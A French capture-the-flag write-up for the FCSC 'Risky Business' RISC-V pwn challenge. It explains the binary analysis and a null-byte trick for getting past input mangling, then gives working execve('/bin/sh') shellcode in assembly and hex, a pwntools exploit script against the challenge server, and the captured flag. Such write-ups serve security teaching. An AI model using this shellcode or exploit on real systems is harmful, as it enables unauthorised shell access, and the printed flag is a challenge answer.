 # Risky Business - PWN - 200

> L'exercice n'est pas très risqué : retrouver simplement le contenu du fichier flag.

```risky-business: ELF 64-bit LSB shared object, UCB RISC-V, version 1 (SYSV)```

Ok nous avons clairement affaire à du RISC-V, une architecture RISC apparue récemment.

Une grande partie de ce challenge était dans le setup de l'environnement de debug, qui a été simplifié par la mise en ligne du Dockerfile.
On pouvait s'en sortir avec un gdb-multiarch en déboguant en remote, avec le flag -g sur QEMU.

Après un coup de checksec, nous remarquons que la protection NX est désactivée, permettant l'exécution de code sur la pile.

```
    Arch:     em_riscv-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

## Analyse du binaire

Bien que cette architecture soit assez exotique, Ghidra supporte RISC-V !
Plongeons sans plus attendre dans les entrailles du binaire.

Après une rapide analyse du pseudocode généré par Ghidra, on peut voir que le binaire va nous demander d'entrer une chaîne de 67 caractères maximum.

Ensuite, notre chaîne va passer dans un algorithme étrange effectuant des modifications sur celle-ci, puis appeler notre chaîne comme une fonction.

Très bien nous n'avons qu'à lui fournir un shellcode RISC-V pour lancer un shell !

## Exploitation du binaire

N'ayant aucune connaissance en assembleur RISC-V, je m'empresse d'aller voir sur shell-storm s'il n'y en a pas déjà un qui existe ...

Bingo ! [celui-ci](http://shell-storm.org/shellcode/files/shellcode-908.php) devrait faire l'affaire.

Sauf que non ... Le programme crash.
En analysant le contenu de notre chaîne, celle-ci semble corrompue (probablement après être passée dans cet algorithme bizarre).

N'ayant pas la foi de reverse cet algorithme pour trouver les badchars à ne pas adopter dans le shellcode, puis créer ce shellcode sans badchars, on va se pencher sur une autre solution !

On remarque que cet algorithme se base sur la taille de notre chaîne pour faire son travail.
Une chaîne se termine par un octet nul (\x00), et la fonction prenant notre entrée est fgets, s'arrêtant seulement pour les retour à la ligne (\x0a) et le caractère de fin de fichier EOF.

De ce fait, nous ne sommes pas obligé d'avoir du code sans octets nul à l'intérieur, ce qui peut nous faire gagner beaucoup de place.

Si nous mettons un octet nul vers le début de la chaîne, alors seulement les octets non nuls qui sont avant seront filtrés, ce qui laissera le reste intact !

[Cet article](https://thomask.sdf.org/blog/2018/08/25/basic-shellcode-in-riscv-linux.html), nous montre le processus de la réalisation d'un shellcode en RISC-V, il présente au début un code minimal pour faire un appel système execve("/bin/sh", NULL, NULL):

```asm
    .global _start
    .text
_start:
    li s1, 0x68732f2f6e69622f   # Load "/bin//sh" backwards into s1
    sd s1, -16(sp)              # Store dword s1 on the stack
    sd zero, -8(sp)             # Store dword zero after to terminate
    addi a0,sp,-16              # a0 = filename = sp + (-16)
    slt a1,zero,-1              # a1 = argv set to 0
    slt a2,zero,-1              # a2 = envp set to 0
    li a7, 221                  # execve = 221
    ecall                       # Do syscall
```

L'idée serait de placer une instruction qui n'altèrerait pas le fonctionnement de notre shellcode, et contenant un nullbyte.

```lui a5, 0``` est un bon candidat !

Ce qui nous donne: 

```asm
_start:
    lui a5, 0
    li s1, 0x68732f2f6e69622f   # Load "/bin//sh" backwards into s1
    sd s1, -16(sp)              # Store dword s1 on the stack
    sd zero, -8(sp)             # Store dword zero after to terminate
    addi a0,sp,-16              # a0 = filename = sp + (-16)
    slt a1,zero,-1              # a1 = argv set to 0
    slt a2,zero,-1              # a2 = envp set to 0
    li a7, 221                  # execve = 221
    ecall                       # Do syscall
```

Nous n'avons plus qu'à assembler notre code et à l'envoyer au serveur !

Le paquet **binutils-riscv64-linux-gnu** nous permet d'avoir les outils pour faire cela.

```
$ riscv64-linux-gnu-gcc execve.s -c
$ riscv64-linux-gnu-ld execve.o -o execve
$ riscv64-linux-gnu-objcopy -O binary --only-section=.text execve execve.text
$ hexdump -C execve.text 

00000000  b7 07 00 00 b7 a4 43 03  9b 84 94 97 93 94 c4 00  |......C.........|
00000010  93 84 74 7b 93 94 c4 00  93 84 b4 34 93 94 d4 00  |..t{.......4....|
00000020  93 84 f4 22 23 38 91 fe  23 3c 01 fe 13 05 01 ff  |..."#8..#<......|
00000030  93 25 f0 ff 13 26 f0 ff  93 08 d0 0d 73 00 00 00  |.%...&......s...|
00000040
```

Notre shellcode final fait 64 octets, et commence par \xb7\x07 suivi de deux nullbytes, seulement ces deux caractères seront donc affectés.

```py
#!/usr/bin/python

from pwn import *

r = remote('challenges1.france-cybersecurity-challenge.fr', 4004)

shellcode = "\xb7\x07\x00\x00\xb7\xa4\x43\x03\x9b\x84\x94\x97\x93\x94\xc4\x00\x93\x84\x74\x7b\x93\x94\xc4\x00\x93\x84\xb4\x34\x93\x94\xd4\x00\x93\x84\xf4\x22\x23\x38\x91\xfe\x23\x3c\x01\xfe\x13\x05\x01\xff\x93\x25\xf0\xff\x13\x26\xf0\xff\x93\x08\xd0\x0d\x73\x00\x00\x00"

r.sendline(shellcode)
r.sendline()
r.interactive()
```

```
[+] Opening connection to challenges1.france-cybersecurity-challenge.fr on port 4004: Done
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag
FCSC{d79704401bf7c58ca46f3711a9a8c8207d0c4ce7d80fd0dc41df6d5e44b3ddaf}
$  
```

Boom, on a un shell interactif et on peut afficher le flag !

FLAG: FCSC{d79704401bf7c58ca46f3711a9a8c8207d0c4ce7d80fd0dc41df6d5e44b3ddaf}